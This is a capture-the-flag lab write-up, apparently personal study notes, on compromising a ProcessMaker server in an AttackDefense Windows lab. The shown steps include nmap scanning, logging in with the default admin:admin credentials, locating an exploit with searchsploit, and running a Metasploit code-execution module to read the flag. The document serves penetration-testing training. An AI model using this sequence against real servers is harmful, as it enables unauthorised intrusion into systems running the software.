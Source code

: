 # 🔬Win Workflow Platform - MS

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Windows: Workflow Platform](https://attackdefense.com/challengedetailsnoauth?cid=1946)
>
> * Target IP: `10.0.28.252`
> * Exploit a vulnerable ProcessMaker server with **Metasploit**

```bash
nmap -sS -sV 10.0.28.252
```

```bash
Not shown: 990 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Apache httpd 2.2.23 ((Win32) PHP/5.2.14)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql              MySQL (unauthorized)
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

#### Enumeration <a href="#enumeration" id="enumeration"></a>

* Explore the web application hosted on the web server, before running any vuln scanners
* Search the target IP `10.0.28.252` in browser.

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* View the web page source code. In this case no **version information** can be found.
* Search online for `ProcessMaker` [default credentials](https://wiki.processmaker.com/index.php/2.0/Login\_Settings)
  * `admin`:`admin`

<figure><img src="../../../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation <a href="#exploitation" id="exploitation"></a>

```bash
searchsploit ProcessMaker
# Try "ProcessMaker Open Source - (Authenticated) PHP Code Execution (Metasploit)"

cd Desktop
searchsploit -m 29325
less 29325.rb
rm 29325.rb
# In this case a Metasploit module will be used
```

<figure><img src="../../../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.0.28.252
workspace -a ProcessMaker
```

```bash
search ProcessMaker
use exploit/multi/http/processmaker_exec
options
set USERNAME admin
set PASSWORD admin
exploit
```

<figure><img src="../../../../.gitbook/assets/image (14) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
pwd
cd /
dir
cat flag.txt
```

{% hint style="success" %}
**Flag:** `a3dcb4d229de6fde0db5686dee47145d`
{% endhint %}
